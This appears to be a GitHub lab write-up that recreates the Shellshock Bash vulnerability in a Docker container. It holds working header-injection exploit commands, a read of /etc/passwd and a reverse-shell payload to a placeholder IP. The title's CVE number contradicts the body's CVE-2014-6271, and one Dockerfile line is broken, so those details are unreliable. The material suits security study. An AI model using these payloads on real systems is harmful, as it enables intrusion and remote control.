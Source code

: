 # CVE Recreation: Shellshock (CVE-2022-30190)

### Details

CVE ID: <br>
**CVE-2022-30190**

Vulnerability Name: <br>
**Shellshock**

Vulnerable Software: <br>
**GNU Bash (versions < 4.3)**

Vulnerability Type: <br>
**Remote Code Execution (via crafted environment variables)**

Severity: <br>
**9.8 CVSS v3 (Critical), 9.3 CVSS v2 (High)**

---

### Summary

CVE-2014-6271, known as "Shellshock", is a critical vulnerability in GNU Bash that allows attackers to execute arbitrary commands by injecting specially crafted environment variables. It was discovered in 2014 and affects systems where Bash is used to process environment variables, particularly in network services like CGI scripts on web servers. 

The bug occurs because Bash improperly executes function definitions passed as environment variables, and mistakenly continues parsing and executing commands following the function.

---

### Example of the Vulnerability

To test if a version of Bash is vulnerable, use:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If the Bash version is vulnerable, it will output:
```
VULNERABLE
test
```

### How it works

-	`env x='() { :;}; echo VULNERABLE'` creates an environment variable x that looks like a function definition.
-	Bash is supposed to define x as a function and ignore the rest.
-	However, vulnerable versions of Bash continue parsing after the function, executing echo VULNERABLE, which is the flaw.

---

### Test Environment Setup

•	OS: Ubuntu 14.04

•	Bash version: 4.3.8 (unpatched, vulnerable confirmed via env test)

•	Web server: Apache2 with CGI enabled

•	Vulnerable script: Bash-based CGI script at /usr/lib/cgi-bin/vulnerable.sh

<br>

I first tested this in a raw Ubuntu 14.04 virtual machine:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%><br><br>

`Bash –-version`:

<img src="./Screenshots/Screenshot2.png" width=80% height=80%><br><br>

Then ran:

`env x='() { :;}; echo VULNERABLE' bash -c "echo test"`:

<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

Result confirmed it was vulnerable.

---

### Turning into a Docker Image

To make this reproducible and portable, I created a simple Docker container using Ubuntu 14.04 with Apache and a vulnerable Bash CGI script:

```dockerfile
FROM ubuntu:14.04

# Install Apache, build tools, wget, dos2unix, etc.
RUN apt-get update && \
    apt-get install -y apache2 wget build-essential curl dos2unix && \
    apt-get install -y --no-install-recommends software-properties-common && \
    apt-get clean

# Install Bash 4.3 (vulnerable version)
WORKDIR /tmp
RUN wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz && \
    tar -xvzf bash-4.3.tar.gz && \
    cd bash-4.3 && \
    wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-001 && 
    patch -p0 < bash43-001 && \
    ./configure && make && make install && \
    bash --version

# Replace the system's bash with the vulnerable one
RUN mv /bin/bash /bin/bash.bak && ln -s /usr/local/bin/bash /bin/bash

RUN a2enmod cgi
RUN mkdir -p /usr/lib/cgi-bin
COPY vulnerable.sh /usr/lib/cgi-bin/vulnerable.sh
RUN dos2unix /usr/lib/cgi-bin/vulnerable.sh
RUN chmod +x /usr/lib/cgi-bin/vulnerable.sh

EXPOSE 80

CMD ["/bin/bash", "-c", "rm -f /var/run/apache2/apache2.pid && apache2ctl -D FOREGROUND"]
```

And the `vulnerable.sh` CGI script:
```.sh
#!/bin/bash
echo "Content-type: text/html"
echo
echo "Vulnerable CGI script"
```

Built and ran with:
```cmd
docker build -t shellshock_lab .
docker run --rm -it -p 8080:80 shellshock_lab
```

Then accessed at:
```html
http://localhost:8080/cgi-bin/vulnerable.sh
```

---

### How to use the Docker

On your machine, run `sudo docker pull oscaryr/shellshock_lab:latest` to pull the docker:

<img src="./Screenshots/Screenshot4.png" width=80% height=80%><br><br>

Then, `sudo docker run -p 8080:80 oscaryr/shellshock_lab:latest` to run the docker:

<img src="./Screenshots/Screenshot5.png" width=80% height=80%>

> Note: **The AH00558: apache2: message can be safely ignored**

<br><br>

Browse to `localhost:8080/cgi-bin/vulnerable.sh` to verify if the Shellshock CGI is working:

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

The terminal that running the docker won’t be interactable, we need to open a new terminal and access to the docker:

`sudo docker ps` to show existing dockers
<img src="./Screenshots/Screenshot7.png" width=80% height=80%><br><br>

`sudo docker exec -it [container_name or ID] /bin/bash` to interact with the docker
<img src="./Screenshots/Screenshot8.png" width=80% height=80%><br><br>

We can now exploit the Bash vulnerability via the CGI script using a malicious HTTP header:

#### Exploit Commands

1. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost/cgi-bin/vulnerable.sh`
   
   <img src="./Screenshots/Screenshot9.png" width=80% height=80%><br>

   - Apache passes all HTTP headers as environment variables to the CGI script.
   - The User-Agent header becomes an environment variable, like:
     `export HTTP_USER_AGENT="() { :; }; /bin/bash -c 'cat /etc/passwd'"`
   - Since Bash is vulnerable, it doesn’t stop after defining the fake function, and continues to execute the rest. In this case, it's `cat /etc/passwd`.
   - This is how remote command execution happens.

<br>

2. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://localhost/cgi-bin/vulnerable.sh`

   <img src="./Screenshots/Screenshot10.png" width=80% height=80%><br><br>

3. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'touch /tmp/shellshock_worked'" http://localhost/cgi-bin/vulnerable.sh`
   <img src="./Screenshots/Screenshot11.png" width=80% height=80%><br><br>

#### Reverse Shell Demonstration

Open another new terminal, set up the listener:

<img src="./Screenshots/Screenshot12.png" width=80% height=80%><br><br>

Back to the interactive docker terminal:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'" \
http://localhost/cgi-bin/vulnerable.sh
```

<img src="./Screenshots/Screenshot13.png" width=80% height=80%><br><br>

Result:

<img src="./Screenshots/Screenshot14.png" width=80% height=80%>

> Note: **To stop the terminal that running the docker, on the second terminal, exit the interaction of docker, then use sudo docker stop [Container Name or ID]**

---

### Patch & Mitigation

- Upgrade to a patched version of Bash (≥ 4.3.27)
- Use security tools like AppArmor or SELinux to restrict CGI behavior
- Avoid using Bash for CGI scripts

To verify it’s patched, run the same command:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If it only outputs:
```bash
test
```

Then it’s not vulnerable:

<img src="./Screenshots/Screenshot15.png" width=80% height=80%><br><br>

---

### Reflection

I learned a lot of important security lessons from the Shellshock vulnerability (CVE-2014-6271), particularly about how Bash parses environment variables and how CGI scripts pass HTTP headers into shell environments. It showed how simple it is to use HTTP headers as attack vectors in the scenario where input sanitization is inadequate. This vulnerability helped me to gain hands-on experience in building vulnerable environments within Docker, allowing me to better understand the risks of legacy systems and how they can be exploited in the real world. Even though Shellshock is relatively simple and straightforward, it still serves as a reminder of how crucial it is to properly validate input and to fix security holes in out-of-date systems in order to stop significant exploitation.

